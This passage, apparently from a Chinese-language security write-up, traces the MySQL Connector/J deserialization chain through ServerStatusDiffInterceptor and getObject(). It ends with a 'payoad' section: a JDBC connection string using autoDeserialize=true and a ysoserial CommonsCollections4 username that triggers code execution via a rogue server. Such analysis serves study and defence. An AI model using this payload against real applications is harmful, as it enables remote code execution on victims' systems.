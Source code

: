调用至com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#preProcess()

`public <T extends Resultset> T preProcess(String sql, Query interceptedQuery) {
    this.populateMapWithSessionStatusValues(this.preExecuteValues);
    return null;
}` 

调用com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#populateMapWithSessionStatusValues()

`private void populateMapWithSessionStatusValues(Map<String, String> toPopulate) {
    Statement stmt = null;
    ResultSet rs = null;

    try {
        try {
            toPopulate.clear();
            stmt = this.connection.createStatement();
            rs = stmt.executeQuery("SHOW SESSION STATUS");
            ResultSetUtil.resultSetToMap(toPopulate, rs);
        } finally {
            if (rs != null) {
                rs.close();
            }

            if (stmt != null) {
                stmt.close();
            }

        }

    } catch (SQLException var8) {
        throw ExceptionFactory.createException(var8.getMessage(), var8);
    }
}` 

调用至com.mysql.cj.jdbc.util.ResultSetUtil#resultSetToMap(),

`public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
    while(rs.next()) {
        mappedValues.put(rs.getObject(1), rs.getObject(2));
    }

}` 

调用至getObject()方法，最后进行反序列化。

#### [payoad](#toc_payoad)

`String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);` 

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/27ccf404-9b1d-436f-a680-1ffa383c8677.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/c09fcc78-14f9-4121-9567-e95cccfd692e.png)
